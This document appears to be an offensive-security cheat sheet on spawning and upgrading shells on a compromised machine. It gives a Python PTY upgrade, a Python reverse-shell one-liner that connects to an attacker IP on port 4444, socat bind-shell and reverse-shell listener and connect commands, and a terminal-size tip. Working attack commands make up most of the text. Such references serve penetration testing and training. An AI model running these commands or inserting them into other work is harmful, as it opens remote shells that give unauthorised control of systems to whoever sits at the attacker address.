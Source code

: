 ### Python PTY shell

An upgrade from a regular semi-interactive shell. You can execute the following command in your existing shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Or initiate reverse connection:

```bash
python -c 'import socket,subprocess,os;\
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);\
s.connect(("<attackers_ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);\
os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

### Socat

Netcat on steroids! Seriously tho, go check this [tool's](http://www.dest-unreach.org/socat/) manual `man socat` and you'd be amazed what you can do with this tool regarding tunneling. Among other things it can spawn a fully interactive shell, even better than the aforementioned python-pty. The downside is that you most probably will have to build/install this tool on the target server as it is not a default utility in most unix-like distributions.

#### Bind shell

Set listener:

`socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane`

Connect to the listener:

```socat FILE:`tty`,raw,echo=0 TCP:<victim_ip>:1337```

#### Reverse shell

Set listener:

```socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0```


Connect to attacker's machine:

``` bash
socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane
```

#### Terminal size

By default the terminal size is quite small, as you may notice when launching `top` command or editing files with a text editor. You can easily change this, use `stty -a ` command to get the size of your regular teminal:

```
$ stty -a
speed 38400 baud; rows 57; columns 211; line = 0;
``` 
